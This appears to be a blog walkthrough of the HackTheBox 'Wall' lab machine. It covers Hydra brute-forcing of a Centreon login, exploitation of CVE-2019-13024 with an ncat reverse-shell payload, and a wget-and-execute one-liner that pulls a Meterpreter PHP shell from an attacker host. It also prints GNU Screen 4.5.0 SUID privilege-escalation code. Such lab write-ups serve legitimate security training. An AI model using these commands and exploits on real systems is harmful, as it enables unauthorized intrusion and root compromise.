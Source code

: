 ```yaml
---
layout: post
title: "HackTheBox - Wall Walkthrough"
author: "joona"
---
```


![](/images/wall/wall.jpg)

Wall is a Linux box created by [Askar][Askar] and it's based on RCE discovered by him in Centreon network/system monitoring tool.
It's rated as medium difficulty and was one the first active HTB boxes that I pwned by myself.
<br/><br/>

## Enumeration
Starting off with nmap:
>nmap -Pn -sV -sC -p- 10.10.10.157 -oA nmap/wall

We only have two open ports: `22` (OpenSSH 7.6p1) and `80` (Apache 2.4.29).
<br/>

Navigating to the webpage on port 80 we get the default Apache2 installation page. Let's do directory enumeration
with gobuster:<br/>
>gobuster dir -u 10.10.10.157 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt

`10.10.10.157/monitoring` authentication prompt<br/>
`10.10.10.157/aa.php` displays only the number '1'<br/>
`10.10.10.157/panel.php` displays the text 'Just a test for php file !'<br/>

At this point I was pretty stumped. Firing `Nikto` at the website we notice that the
allowed HTTP Methods are: `GET`, `POST`, `OPTIONS` and `HEAD`.<br/>

Sending a POST request to 10.10.10.157/monitoring/ we get an interesting page `/centreon`.<br/>
![](/images/wall/monpost.jpg)<br/>

At `10.10.10.157/centreon` we have a `Centreon v.19.04.0` login page.<br/>

![](/images/wall/centreon.jpg)<br/>
The default credentials for the Centreon Web UI are `admin:centreon`, but these don't work.

Using Hydra to brute-force the login we get the correct password: `password1`
>hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.157 http-form-post "/centreon/api/index.php?action=authenticate:username=^USER^&password=^PASS^:Unauthorized"

<br/>
## Reverse Shell

This version of Centreon is vulnerable to Remote Code Execution ([CVE-2019-13024][CVE-2019-13024]).
There's a good blogpost made by the author of this machine [Centreon v19.04 Remote Code Execution][RCE].
This exploit uses `nagios_bin` parameter to execute arbitrary commands. <br/>

The blogpost explains the exploit in good detail and even gives us a [Python script][Script]! But that would of course be too easy
so the exploit doesn't work for this machine without modifications.

I modified the Python script to print out all requests and responses and saw that `send_payload` request gives us
a **403 Forbidden** response. If we change the value of NAGIOS_BIN to nothing, the request goes through.

{% highlight python %}
# this value contains the payload , you can change it as you want
    "nagios_bin": "ncat -e /bin/bash {0} {1}".format(ip, port),
{% endhighlight %}

It seems that there's a Web Application Firewall (WAF) blocking the request.

I tried multiple different WAF bypass techniques such as:<br/>
`/???/??n/?ing 10.10.x.x`<br/>
`/u's'r/b'i'n/w'g'e't' 10.10.x.x:8000`<br/>

But to no avail. I realized that if the nagios_bin-parameter contains a whitespace, WAF blocks it.

At this point I decided to start following the blog post mentioned earlier manually.
For this we need to create a PHP/meterpreter reverse shell:
>msfvenom -p php/meterpreter/reverse_tcp -f raw lhost=10.10.x.x lport=1339 > shell.txt

If you save the changes at http://10.10.10.157/centreon/main.php?p=60901&o=c&server_id=1 and then intercept the POST request with Burp,
you can edit the nagios_bin value to include whitespaces:
>wget http://10.10.14.2:8000/shell.txt -O /tmp/shelli.php;php -f /tmp/shelli.php #

This one-liner downloads the reverse meterpreter/PHP shell and executes it. Remember the **#hashtag** in the end
to comment out the rest of the line.

![](/images/wall/nagiospost.jpg)<br/>
(Open the image in new tab to make it bigger).

Now we have the arbitrary command as nagios_bin value wit all dem glorious whitespaces (IP censored).
![](/images/wall/nagiosbin.jpg)<br/>

After this set up a HTTP server and a Metasploit multi/handler:<br/>
`python3 -m http.server`<br/>
In Metasploit: <br/>
`use exploit/multi/handler` <br/>
`set payload php/meterpreter/reverse_tcp`<br/>

To trigger the code we need to send the following POST request (replace the PHPSESSID cookie):<br/>
>POST /centreon/include/configuration/configGenerate/xml/generateFiles.php HTTP/1.1<br/>
Host: 10.10.10.157<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0<br/>
Accept: application/xml, text/xml, */*; q=0.01<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Referer: http://10.10.10.157/centreon/main.get.php?p=60901&o=c&server_id=1&poller=<br/>
Content-Type: application/x-www-form-urlencoded; charset=UTF-8<br/>
X-Requested-With: XMLHttpRequest<br/>
Content-Length: 33<br/>
Cookie: PHPSESSID=2pq8phulqrn4achohfj2b1rsbp<br/>
Connection: close<br/><br/>
poller=1&debug=true&generate=true<br/>

We should now get a Meterpreter shell as user `www-data`.
Remember to edit the nagios_bin at the web-panel to something else so you don't spoil the machine for others!
<br/><br/>

## Privilege Escalation
Let's move to `/tmp` and download [LinEnum.sh][LinEnum] script to enumerate the host.<br/>
LinEnum.sh results show us that **screen-4.5.0** has a SUID-bit set.
For this Google gives us [GNU Screen 4.5.0 - Local Privilege Escalation][Screen].

The exploit didn't work right off the bat so I decided to do it manually. Chopping the exploit code to pieces:<br/>
>**libhax.c**
{% highlight python %}
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
{% endhighlight %}

>**rootshell.c**
{% highlight python %}
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
{% endhighlight %}

Compiling:<br/>
`gcc -fPIC -shared -ldl -o libhax.so libhax.c`<br/>
`gcc -o rootshell rootshell.c`<br/>

Now download the files from the target machine /tmp folder:<br/>
`wget 10.10.x.x:8000\libhax.so`<br/>
`wget 10.10.x.x:8000\rootshell`<br/>

Next, manually walk through the exploit execution flow:<br/>
`/bin/screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so"`<br/>
`cd /etc`<br/>
`umask 000`<br/>
`bin/screen-4.5.0 -ls`<br/>
`/tmp/rootshell`<br/>

After running **rootshell** we should have now a root shell. We can now get the
**/home/shelby/user.txt** and **/root/root.txt** since we jumped straight from user *www-data* to *root*.

DONE! :)
Thank you for reading.


[LinEnum]: https://github.com/rebootuser/LinEnum
[Askar]: https://twitter.com/mohammadaskar2
[CVE-2019-13024]: https://nvd.nist.gov/vuln/detail/CVE-2019-13024
[Script]: https://github.com/mhaskar/CVE-2019-13024/blob/master/Centreon-exploit.py
[RCE]: https://shells.systems/centreon-v19-04-remote-code-execution-cve-2019-13024/
[Screen]: https://www.exploit-db.com/exploits/41154

